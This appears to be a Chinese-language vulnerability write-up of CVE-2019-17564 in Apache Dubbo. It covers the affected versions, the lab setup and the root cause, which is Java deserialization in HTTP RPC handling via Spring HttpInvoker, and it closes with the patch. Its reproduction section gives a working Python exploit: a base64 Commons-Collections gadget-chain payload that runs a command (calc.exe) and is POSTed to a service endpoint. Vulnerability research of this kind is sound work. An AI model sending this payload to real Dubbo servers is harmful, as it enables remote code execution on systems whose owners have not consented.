

- [CVE-2019-17564 Apache Dubbo 远程代码执行漏洞](#cve-2019-17564-apache-dubbo-远程代码执行漏洞)
  - [影响版本](#影响版本)
  - [环境搭建](#环境搭建)
  - [原理分析](#原理分析)
    - [RPC#HTTP](#rpchttp)
    - [org.springframework.remoting.httpinvoker](#orgspringframeworkremotinghttpinvoker)
  - [漏洞复现](#漏洞复现)
  - [补丁](#补丁)
  - [参考](#参考)

# CVE-2019-17564 Apache Dubbo 远程代码执行漏洞
## 影响版本
```
2.7.0~2.7.4  
2.6.0~2.6.7
2.5.x
```
## 环境搭建
https://github.com/apache/dubbo-samples/tree/2.6.x/dubbo-samples-http
## 原理分析
### RPC#HTTP
Apache Dubbo作为一个RPC框架,其支持绝大多数的RPC协议,CVE-2019-17564的原理在于使用HTTP协议进行RPC调用时,对于消费者和提供者之间的数据传输是基于反序列化的,这就导致如果可以访问到提供者暴露的服务接口,就可以发送恶意的序列化数据进行反序列化攻击.  

而具体处理HTTP请求的方式則是使用的`org.springframework.remoting.httpinvoker`这个类来处理请求.
### org.springframework.remoting.httpinvoker
而在`org.springframework.remoting.httpinvoker`中是使用的jdk原生反序列化来处理输入流.
 
## 漏洞复现  
```python
import requests
import base64

url = "http://192.168.18.1:8081/org.apache.dubbo.samples.http.api.DemoService"
payload = "rO0ABXNyABFqYXZhLnV0aWwuSGFzaFNldLpEhZWWuLc0AwAAeHB3DAAAAAI/QAAAAAAAAXNyADRvcmcuYXBhY2hlLmNvbW1vbnMuY29sbGVjdGlvbnMua2V5dmFsdWUuVGllZE1hcEVudHJ5iq3SmznBH9sCAAJMAANrZXl0ABJMamF2YS9sYW5nL09iamVjdDtMAANtYXB0AA9MamF2YS91dGlsL01hcDt4cHQAA2Zvb3NyACpvcmcuYXBhY2hlLmNvbW1vbnMuY29sbGVjdGlvbnMubWFwLkxhenlNYXBu5ZSCnnkQlAMAAUwAB2ZhY3Rvcnl0ACxMb3JnL2FwYWNoZS9jb21tb25zL2NvbGxlY3Rpb25zL1RyYW5zZm9ybWVyO3hwc3IAOm9yZy5hcGFjaGUuY29tbW9ucy5jb2xsZWN0aW9ucy5mdW5jdG9ycy5DaGFpbmVkVHJhbnNmb3JtZXIwx5fsKHqXBAIAAVsADWlUcmFuc2Zvcm1lcnN0AC1bTG9yZy9hcGFjaGUvY29tbW9ucy9jb2xsZWN0aW9ucy9UcmFuc2Zvcm1lcjt4cHVyAC1bTG9yZy5hcGFjaGUuY29tbW9ucy5jb2xsZWN0aW9ucy5UcmFuc2Zvcm1lcju9Virx2DQYmQIAAHhwAAAABXNyADtvcmcuYXBhY2hlLmNvbW1vbnMuY29sbGVjdGlvbnMuZnVuY3RvcnMuQ29uc3RhbnRUcmFuc2Zvcm1lclh2kBFBArGUAgABTAAJaUNvbnN0YW50cQB+AAN4cHZyABFqYXZhLmxhbmcuUnVudGltZQAAAAAAAAAAAAAAeHBzcgA6b3JnLmFwYWNoZS5jb21tb25zLmNvbGxlY3Rpb25zLmZ1bmN0b3JzLkludm9rZXJUcmFuc2Zvcm1lcofo/2t7fM44AgADWwAFaUFyZ3N0ABNbTGphdmEvbGFuZy9PYmplY3Q7TAALaU1ldGhvZE5hbWV0ABJMamF2YS9sYW5nL1N0cmluZztbAAtpUGFyYW1UeXBlc3QAEltMamF2YS9sYW5nL0NsYXNzO3hwdXIAE1tMamF2YS5sYW5nLk9iamVjdDuQzlifEHMpbAIAAHhwAAAAAnQACmdldFJ1bnRpbWV1cgASW0xqYXZhLmxhbmcuQ2xhc3M7qxbXrsvNWpkCAAB4cAAAAAB0AAlnZXRNZXRob2R1cQB+ABsAAAACdnIAEGphdmEubGFuZy5TdHJpbmeg8KQ4ejuzQgIAAHhwdnEAfgAbc3EAfgATdXEAfgAYAAAAAnB1cQB+ABgAAAAAdAAGaW52b2tldXEAfgAbAAAAAnZyABBqYXZhLmxhbmcuT2JqZWN0AAAAAAAAAAAAAAB4cHZxAH4AGHNxAH4AE3VyABNbTGphdmEubGFuZy5TdHJpbmc7rdJW5+kde0cCAAB4cAAAAAF0AAhjYWxjLmV4ZXQABGV4ZWN1cQB+ABsAAAABcQB+ACBzcQB+AA9zcgARamF2YS5sYW5nLkludGVnZXIS4qCk94GHOAIAAUkABXZhbHVleHIAEGphdmEubGFuZy5OdW1iZXKGrJUdC5TgiwIAAHhwAAAAAXNyABFqYXZhLnV0aWwuSGFzaE1hcAUH2sHDFmDRAwACRgAKbG9hZEZhY3RvckkACXRocmVzaG9sZHhwP0AAAAAAAAB3CAAAABAAAAAAeHh4"
payload = base64.b64decode(payload)

headers = {"Content-Type": "application/x-java-serialized-object"}
res = requests.post(url,headers=headers,data=payload)
print(res.text)
```  

## 补丁
使用`com.googlecode.jsonrpc4j.JsonRpcServer`替换`org.springframework.remoting.httpinvoker.HttpInvokerServiceExporter`来处理请求,变成了JSON格式进行数据传输.  
## 参考
https://xz.aliyun.com/t/10916#toc-4